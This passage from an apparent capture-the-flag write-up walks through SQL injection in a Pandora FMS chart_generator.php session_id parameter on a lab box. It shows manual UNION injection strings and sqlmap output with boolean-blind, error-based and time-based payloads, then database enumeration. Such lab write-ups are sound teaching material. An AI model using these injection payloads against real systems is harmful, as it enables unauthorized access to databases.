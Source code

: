 I’ll add `?session_id='` to the end, and it returns an SQL error:

[![image-20220519105847430](https://0xdfimages.gitlab.io/img/image-20220519105847430.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220519105847430.png)

This is vulnerable to a UNION injection. If I try `session_id=' union select 1;-- -`, it complains about the number of columns being wrong:

[![image-20220519110142054](https://0xdfimages.gitlab.io/img/image-20220519110142054.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220519110142054.png)

Increasing the number of columns in the union, at `session_id=' union select 1,2,3;-- -` it works:

![image-20220519110116404](https://0xdfimages.gitlab.io/img/image-20220519110116404.png)

#### sqlmap

I’ll point `sqlmap` at this and it finds UNION injection but decides it can’t exploit it. It does find boolean, error-based, and time-based injections:

```

oxdf@hacky$ sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
...[snip]...
sqlmap identified the following injection point(s) with a total of 334 HTTP(s) requests:
---         
Parameter: session_id (GET)             
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: session_id=1' RLIKE (SELECT (CASE WHEN (9034=9034) THEN 1 ELSE 0x28 END))-- dJJc

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=1' OR (SELECT 1447 FROM(SELECT COUNT(*),CONCAT(0x716b627671,(SELECT (ELT(1447=1447,1))),0x716a787671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wMuR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=1' AND (SELECT 9955 FROM (SELECT(SLEEP(5)))lBOL)-- GqOs
---
[15:03:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)  
...[snip]...

```

`--dbs` shows two databases:

```

available databases [2]:
[*] information_schema
[*] pandora

```
